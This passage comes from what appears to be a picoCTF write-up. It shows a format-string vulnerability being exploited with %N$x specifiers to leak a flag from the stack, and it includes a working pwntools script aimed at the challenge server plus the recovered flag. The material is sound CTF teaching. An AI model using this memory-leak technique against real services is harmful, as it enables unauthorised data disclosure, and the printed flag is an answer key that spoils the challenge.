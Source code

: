 to only print one. Let's use direct access then.
`%2$p` prints some pointer, however it's not a string. 
Searching further, with `%15$x` we get some ascii-looking hex. Indeed:
```py
>>> bytes.fromhex("6f636970")
b'ocip'
```
Let's find out how long the string is. After more poking around, we can see
that it goes at least until `%23$x`. We wrote a simple script that would dump
the string for us:

```py
from pwn import remote

def exploit(fmt):
    r = remote('mercury.picoctf.net', 53437)
    r.recvlines(5)
    r.sendline("1")
    r.recvline()

    r.sendline(fmt)
    r.recvlines(3)
    return r.recvuntil("Portfolio", drop=True)

if __name__ == '__main__':
    flag = b""
    for x in range(15, 24):
        b = exploit(f'%{x}$x').decode()
        flag += bytes.fromhex(b)[::-1]
    print(flag)
```
After running it we get `picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea`, add `}` and you have a flag!


## Binary Gauntlet 1
The code is simple:

![Image](img/binary-gauntlet-1.png)
